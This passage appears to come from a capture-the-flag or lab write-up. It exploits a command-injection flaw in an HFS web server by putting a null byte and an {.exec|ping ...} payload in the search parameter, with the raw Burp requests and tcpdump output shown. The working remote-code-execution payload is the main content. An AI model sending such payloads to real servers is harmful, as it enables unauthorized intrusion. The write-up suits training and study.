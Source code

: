 ### Burp

Here is our request, populated with one null byte in the query:

```
GET /?search=%00 HTTP/1.1
Host: <target-ip>
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://<target-ip>/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: HFS_SID=0.878811701899394
Connection: close

```

Let's try to use the `{.exec|notepad.}` syntax to try to ping our attacking machine with the `ping` utility.

Our request is:
```
GET /?search=%00{.exec|ping+<kali-ip>.} HTTP/1.1
```

**Note:** Remember that these commands *must* be URL encoded (Burp shortcut: `CTRL+U`).

We then fire up `tcpdump` to monitor incoming traffic and check for the ping.

`sudo tcpdump -i tun0`
```
$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes

15:53:52.835671 IP kali-bot.57694 > <target-ip>.http: Flags [S], seq 1188628820, win 64240, options [mss 1460,sackOK,TS val 4150609100 ecr 0,nop,wscale 7], length 0

15:53:52.852623 IP <target-ip>.http > kali-bot.57694: Flags [S.], seq 1785899650, ack 1188628821, win 8192, options [mss 1337,nop,wscale 8,sackOK,TS val 5969016 ecr 4150609100], length 0

15:53:52.852642 IP kali-bot.57694 > <target-ip>.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 4150609117 ecr 5969016], length 0

15:53:52.852825 IP kali-bot.57694 > <target-ip>.http: Flags [P.], seq 1:525, ack 1, win 502, options [nop,nop,TS val 4150609117 ecr 5969016], length 524: HTTP: GET /?search=%2500{.exec|ping+<kali-ip>.} HTTP/1.1

15:53:52.889119 IP <target-ip>.http > kali-bot.57694: Flags [P.], seq 1:194, ack 525, win 258, options [nop,nop,TS val 5969020 ecr 4150609117], length 193: HTTP: HTTP/1.1 200 OK
```
